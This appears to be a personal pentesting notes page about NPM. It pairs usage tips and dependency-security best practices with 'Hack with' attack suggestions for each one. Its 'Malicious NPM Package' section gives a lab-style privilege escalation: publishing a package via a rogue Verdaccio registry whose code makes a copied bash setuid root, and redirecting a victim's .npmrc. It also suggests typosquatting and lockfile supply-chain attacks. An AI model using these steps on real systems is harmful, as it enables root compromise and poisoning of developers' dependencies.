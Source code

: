 
# NPM

NPM (Node Package Manager) is the packet manager for [[NodeJS]] applications.

General usage:
```bash
npm init -y # Initialise
npm install --save ../Logger
# Verify module installation
node 
> module.paths 
# Link instead of install for large depenedency and development "reasons.."
npm link # to link the module
```

#### Malicious NPM Package

Enumerate vulnerable packages
```bash
# Search a registry
npm search ---registry http://$target:$port
# Install packet to registry
npm install $package --registry $registry
```

[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)

Using Verdaccio as an example to create a registry to host packages
```bash
# Example assumes you have access
# Pull the latest version
sudo docker pull verdaccio/verdaccio
# Run -it sudo tty --rm to delete when done, bind port to host
sudo docker run -it --rm --name verdaccio -p 4873:4873  verdaccio/verdaccio
# Update auth and flag that exists for legacy authentication 
nmp adduser --registry http://10.10.10.10 --auth-type=legacy
# cat ~/.npmrc for authToken
# Initialise a Malicious NPM Package
npm init 
# Version > target npm 
# make index.js
'require("child_process").exec("chown root:root /tmp/shell;chmod 4755 /tmp/shell")'

npm login --registry http://10.10.10.10:4873 --auth-type=legacy
npm publish --registry http://10.10.10.10:4873

# Target
# update Target.npmrc 
sed -i 's/127.0.0.1/10.10.14.43/g' /home/kavi/.npmrc
# Copy bash for setuid 
cp /bin/bash /tmp/shell
```


#### NPM Dependency Best Practices plus Hacking and Mitigating

[notes.aliciasykes.com Blog - NPM Dependency Best Practices](https://notes.aliciasykes.com/28300/npm-dependency-security-best-practices):

Check Outdated Depencies
```bash
yarn outdated
npx npm-check # --update update as you check..
```
Hack with: Patch level, dork exploits and craft your own if you have too.

Remove Unused Packages - `npx` [GitHub depcheck](https://github.com/depcheck/depcheck)
```bash
npx depcheck
yarn dedup
```
Hack with: if it ain't in use it is not managed and probably misconfigured

Audit Package Security - [[Snyk]] `test`
```
yarn audit
yarn audit fix
```
Hack with: Auditing with just with tools is not really audit, go the extra mile

Migrate and use other well maintained packages; `lissy93`: *""Stats" section of the npm’s package page, or using [npm-stat.com](https://npm-stat.com/) for historic download data"*
Hack with: malicious `npm` should try to be small if you are there to persist

Analyse package size to manage bloat with [Bundlephobia](https://bundlephobia.com/) or:
```
npx cost-of-modules
```
Hack with: malicious `npm` should try to be small if you are there to persist

Respecting Package Licenses 
```
npx license-checker
```
Hack with: if there are GPL or MIT license then you do not need to ask for demo software and its FOSS so download and perform static and dynamic analysis

Ignore Run Scripts
```bash
echo "ignore-scripts" | tee *.nmprc
```
Hack with: people are more likely to be lazy and not read these, check permissions as if they are used through continuously minor versions there is `+wrx`, which guaranteed root /system dance. 

Package Health Checks
```
npm doctor
```
This does the following:
- Check the official `npm` registry is reachable, and display the currently configured registry.
- Check that Git is available.
- Review installed `npm` and Node.js versions.
- Run permission checks on the various folders such as the local and global `node_modules`, and on the folder used for package cache.
- Check the local `npm` module cache for checksum correctness.
Hack with: if persisting in a module the main issue is with how checksums are handled, can you file tamper their checksums? 

New Packages:
- When was it last updated?
- How often are releases published?
- How many developers have contributed to it? (More is better, as there is a lower risk of the project being abandoned, and a higher chance that issues are spotted).
- How many open issues are there?
- Does it have a security policy?
- Any open or recent security advisories?
- Is it correctly using semantic versioning?
- Is it thoroughly tested?
- Does it use many additional dependencies? If so, are they to be deemed trustworthy?
- How many other projects rely on it?
- Is it frequently downloaded? (Check the "Stats" section of the NPM page, or use [npm-stat.com](https://npm-stat.com/))
- Is the code clear and readable? If it is, then issues will be much easier to spot
- Is the license compatible with your project, and have you acknowledged the terms (e.g. attribution)
- How large is the package? And how will this affect your project's bundle size
Hack with: [[Software-Supply-Chain-Attacks]]

Strict installs
```
npm ci
yarn install --frozen-lockfile
```
Hack with: fix their buggy JavaScript for them so they do not find your code with this tool

Lockfiles
```
yan.lock
npm-lock.json
```
Hack with: Social Engineer a Supply Chain attack thorough ultimately targeting at some point these Lockfiles that will be controlled by committee, **do not tamper they backed to cloud repos like git**   

Registry 
[Verdaccio](https://github.com/verdaccio/verdaccio)
Hack with: see Malicious NPM Package

Dependency Inversion Principle
- Writing small, maintainable, tested, single-purpose packages by SOLID Principles 
Hack with: Supply chain attack no the communal issues of using SOLID and DRY code, i.e invent or hijack the wrapper used to do some level lower task to fit with some original target... Primagen (NPM dev ..btw) comments on this principle of DRY and SOLID being bad in this way 

Secure your NPM Accoun
- Proper Authentication
Hack with: Authentication attacks specifically OSINTable passwords, Developers blog and share a lot that could end up being part of a password, or them or their automation with [[Coerced-Authentication]].

Typo-squatting Attacks
Protect with 
- Take care when copying and pasting commands into the terminal and always verify the source of the repo that you are installing via `npm info`.
- Default to having an npm logged-out user in your daily work routines so your credentials won’t be the weak spot that would lead to easily compromising your account.
- Consider appending the `--ignore-script` flag when installing packages, to prevent them from executing arbitrary code.
Hack with: Depending on target make sure the entire package is full of a different alphabet, if you must Typo-squat attack the buffers for editors like vim, emac, vs-code, Linux generally such that on *paste* is also *execute* `joke: exec(*char i, int 66, order []char)` 

More `Lissy93` Tips and Tricks:
- Use any NPM CLI package, without having to first install it, using `npx`
- While developing multiple packages simultaneously, [yarn link](https://classic.yarnpkg.com/en/docs/cli/link/) is useful for creating symbolic links between them
- Due to how NPM dependencies are structured, if you've been working on a lot of projects, you can find your disk space frequently running low. [NPKill](https://npkill.js.org/) is a handy CLI util, to find all node_modules directories for easy deletion of the ones you no longer need. Just run `npx npkill` to get started. You can also [do this nativley](https://listed.to/@lissy93/16988/how-to-remove-all-node_modules-folders)
- To open the GitHub page for any package, just run `npm docs [package-name]`
- If your facing any issues with NPM, then running `npm doctor` with troubleshoot common issues, and output the likely fix
- List all installed packages in a tree structure with `npm ls`
- Many of the NPM short commands can be grouped together, for example `npm cit` is the same as fresh install and run tests
- When working with mono-repos or multiple packages, you can use the `--prefix [./path/to/dir]` flag to run NPM commands in other directories, without having to cd
- To view all valid release versions of a given package, run `npm view [package-name] versions`, or `yarn info [package-name] versions`
- View a tree of dependencies for any package, with [npmgraph.js.org](https://npmgraph.js.org/)
- Use different NPM versions for different projects easily with [Volta](https://volta.sh/)
- More info can be found for any CVE via [cvedetails.com](https://www.cvedetails.com/) or using [GitHub Advisories](https://github.com/advisories).
## References

[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)
[notes.aliciasykes.com Blog - NPM Dependency Best Practices](https://notes.aliciasykes.com/28300/npm-dependency-security-best-practices)
[GitHub depcheck](https://github.com/depcheck/depcheck)
[Bundlephobia](https://bundlephobia.com/)